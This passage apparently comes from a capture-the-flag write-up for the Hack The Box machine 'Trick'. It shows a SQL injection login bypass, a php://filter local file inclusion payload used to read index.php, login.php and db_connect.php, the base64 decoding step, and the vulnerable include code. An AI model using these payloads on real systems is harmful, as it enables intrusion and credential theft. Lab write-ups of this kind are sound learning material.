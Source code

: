 
A new subdomain is found i'll add that to my `/etc/hosts` file 

On heading over to the new subdomain i got a login page
![image](https://user-images.githubusercontent.com/113513376/217152112-66ecad6e-17fb-4219-8629-01ae993fa119.png)

Bypassing it with basic sqli works and we get logged in
![image](https://user-images.githubusercontent.com/113513376/217152336-5051a77e-c4b6-4b17-a613-881a7fb3ac7c.png)

```
Payload: ' or 1=1 -- (both as username & password)
```

Noticing the url schema looks fishy. Its including the home page via a GET parameter(?page) so this is likely an LFI vulnerability

I tried including /etc/passwd manually but it failed
![image](https://user-images.githubusercontent.com/113513376/217152599-07376acf-c1b8-4319-92b9-9827065dee09.png)

But i can also try to dump the encoded form of the index.php file using php filter

And it worked
![image](https://user-images.githubusercontent.com/113513376/217152894-2e7f6906-dd2c-4b88-a02b-a4b6a623ea93.png)

```
Payload: http://preprod-payroll.trick.htb./index.php?page=php://filter/convert.base64-encode/resource=index
```

Now i'll decode the base64 encoded php code

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ cat index| base64  -d > index.php
```

Here's the decoded value for index.php
![image](https://user-images.githubusercontent.com/113513376/217156126-87334238-eb49-4a7c-b762-1bd6391a5883.png)
![image](https://user-images.githubusercontent.com/113513376/217156230-671d5a41-47cf-433a-97e5-e9ffd53476ba.png)

```
<?php
	session_start();
  if(!isset($_SESSION['login_id']))
    header('location:login.php');
 include('./header.php'); 
 // include('./auth.php'); 
 ?>
<?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
<?php include $page.'.php' ?>
```

So basically the first php code sets the header location to login.php i then tried reading the content of login.php via the lfi which lead to reading db_connect.php
![image](https://user-images.githubusercontent.com/113513376/217156572-c0b66cda-3bf0-4116-b59d-a37fd3337d96.png)
![image](https://user-images.githubusercontent.com/113513376/217156600-a2d413ce-5db4-4c08-ac49-ffeefda87580.png)
